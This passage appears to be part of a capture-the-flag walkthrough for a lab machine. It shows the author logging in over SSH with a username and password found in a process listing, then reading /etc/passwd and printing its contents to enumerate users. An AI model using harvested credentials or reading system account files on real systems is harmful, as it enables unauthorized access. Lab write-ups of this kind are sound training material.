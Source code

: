 ```
25335               runnable            fwupd               /usr/libexec/fwupd/fwupd
...
```

We can see that there are a few lines there that include a username (`daniel`) and password (`HotelBabylon23`). Let's try ssh-ing into the box as daniel.

```
ssh daniel@10.10.11.136
```

Enter the password and we're in! Unfortunately though, Daniel doesn't have the `user.txt` file in his home directory. We must need to find a way to move to a different user.

## User
### Enumeration

Let's start by figuring out where we need to go next. To see the other users on this box, we can run

```bash
cat /etc/passwd
```

Results
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
matt:x:1000:1000:matt:/home/matt:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
Debian-snmp:x:113:117::/var/lib/snmp:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
daniel:x:1001:1001::/home/daniel:/bin/bash
```
